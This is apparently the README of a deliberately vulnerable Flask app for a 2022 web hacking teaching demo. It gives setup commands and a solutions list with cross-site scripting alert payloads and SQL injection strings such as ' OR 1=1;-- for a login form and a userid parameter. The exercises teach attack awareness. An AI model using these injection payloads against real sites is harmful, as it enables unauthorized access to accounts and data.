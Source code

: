 # Web-Hacking-2022
Web Hacking demo for SESH, 2022 edition!

## Run

### Windows

```
PS > cd .\app\
PS > $env:FLASK_APP = "app"
PS > $env:FLASK_DEBUG = "true"
PS > python -m flask run
```

OR run app.py

## Solutions

### XSS 1

`/xss1?flavour=chocolate&quantity=%3Cscript%3Ealert(%27ello%27)%3C/script%3E`

### XSS 3

Just post a comment with the contents `<script>alert('xss')</script>`

### SQL 1

Classic payload: login with `' OR 1=1;--`

### SQL 2

Note: this challenge is also technically an IDOR, as if you know the admin's username (admin) you can view their profile.

`http://localhost:5000/sqli2/getuserdata?userid=71PEO4MZZ145ICYR%27%20OR%201=1;--`